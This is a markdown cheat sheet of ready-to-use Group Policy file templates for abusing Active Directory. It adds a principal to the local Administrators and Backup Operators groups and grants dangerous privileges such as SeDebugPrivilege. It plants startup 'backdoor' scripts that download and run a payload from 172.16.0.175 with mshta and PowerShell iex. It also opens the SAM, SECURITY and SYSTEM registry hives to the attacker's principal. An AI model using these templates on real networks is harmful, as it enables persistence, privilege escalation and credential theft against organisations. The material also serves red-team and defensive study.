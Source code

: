 # GPO-Aduse

# Restricted Groups
Add a principal to a local computer group.

## File Path
`\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`

## File Template
```text
[Unicode]
Unicode=yes
[Version]
signature="$CHICAGO$"
Revision=1
[Group Membership]
*S-1-5-32-544__Memberof =
*S-1-5-32-544__Members = *S-1-5-21-1078383433-4142403703-1311514137-1105
*S-1-5-32-551__Memberof =
*S-1-5-32-551__Members = *S-1-5-21-1078383433-4142403703-1311514137-1105
```

Where:

- `S-1-5-32-544` is the SID of the Administrators group.
- `S-1-5-32-551` is the SID of the Backup Operators group.
- `S-1-5-21-1078383433-4142403703-1311514137-1105` is the domain SID of the principal to add

# Startup Scripts
Create a startup script which executes on boot.

## File Path
`\Machine\Scripts\Startup\backdoor.bat`

## File Template
`mshta.exe http://172.16.0.175/a`

## File Path
`\Machine\Scripts\Startup\backdoor.ps1`

## File Template
`iex ((new-object net.webclient).downloadstring('http://172.16.0.175/a'))`

# User Rights Assignment
Assign granular rights to a principal outside of group membership.

## File Path
`\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`

## File Template
```
[Unicode]
Unicode=yes
[Version]
signature="$CHICAGO$"
Revision=1
[Privilege Rights]
SeRemoteInteractiveLogonRight = *S-1-5-21-1078383433-4142403703-1311514137-1105
SeTakeOwnershipPrivilege = *S-1-5-21-1078383433-4142403703-1311514137-1105
SeLoadDriverPrivilege = *S-1-5-21-1078383433-4142403703-1311514137-1105
SeDebugPrivilege = *S-1-5-21-1078383433-4142403703-1311514137-1105
```

# Registry Key DACLs
Delegate full control of `HKLM\{SECURITY, SAM, SYSTEM}` to `S-1-5-21-1078383433-4142403703-1311514137-1105` recursively.

## File Path
`\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`

## File Template
```
[Unicode]
Unicode=yes
[Version]
signature="$CHICAGO$"
Revision=1
[Registry Keys]
"MACHINE\SECURITY",0,"D:PAR(A;CI;KR;;;S-1-15-2-1)(A;CI;KA;;;S-1-5-21-1078383433-4142403703-1311514137-1105)(A;CIIO;KA;;;CO)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KR;;;BU)"
"MACHINE\SAM",0,"D:PAR(A;CI;KR;;;S-1-15-2-1)(A;CI;KA;;;S-1-5-21-1078383433-4142403703-1311514137-1105)(A;CIIO;KA;;;CO)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KR;;;BU)"
"MACHINE\SYSTEM",0,"D:PAR(A;CI;KR;;;S-1-15-2-1)(A;CI;KA;;;S-1-5-21-1078383433-4142403703-1311514137-1105)(A;CIIO;KA;;;CO)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KR;;;BU)"
```